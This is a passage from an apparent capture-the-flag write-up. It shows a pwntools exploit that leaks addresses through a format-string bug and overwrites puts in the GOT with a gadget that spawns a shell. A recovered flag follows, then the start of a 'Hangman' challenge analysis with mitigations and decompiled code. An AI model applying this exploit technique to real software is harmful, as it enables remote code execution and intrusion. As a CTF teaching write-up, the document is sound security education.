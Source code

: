 ```python
p = b'%25$p %27$p'
sla(b'>> ', p)
rl()
leaked = rud(b'\n').split(b' ')
libc.address = int16(leaked[0]) - 0x276ca - 0x26c6
li(hex(libc.address))
elf.address = int16(leaked[1]) - 0x000012bb
li(hex(elf.address))
sla(b'(r)?\n', b'r')
p = fmtstr_payload(10, {elf.got.puts: (libc.address + 0xebc85)}, write_size='short') # execve("/bin/sh", r10, rdx)
assert len(p) < 0x64
sla(b'>> ', p)
com()
```

![chall-sc](https://hackmd.io/_uploads/Sk1OXXr06.png)

Flag: `ENO{N1C3_Y0U_G0T_TH15_0N3_T00_G00D_J0B!}`

## Hangman

### ![chall-sc](https://hackmd.io/_uploads/SyP9cyGAT.png)

In this challenge, we were given a binary named `hangman` along with a Dockerfile. First, let's see what mitigations the binary file has.

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Then let's dive into the disassembly of the binary.

#### main

```c
int __fastcall __noreturn main(int argc, const char **argv, const char **envp)
{
  int v3; // [rsp+4h] [rbp-Ch] BYREF
  __int64 RandomWord; // [rsp+8h] [rbp-8h]

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  RandomWord = getRandomWord();
  puts("Welcome to hangman!");
  puts("===================");
  while ( 1 )
  {
    puts("What would you like to do?");
    puts("1) Play\n2) Choose another word (newbies)\n3) Quit");
    printf(">> ");
    __isoc99_scanf("%i%*c", &v3);
    if ( v3 == 3 )
      break;
    if ( v3 <= 3 )
    {
      if ( v3 == 1 )
      {
        playGame(RandomWord);
      }
```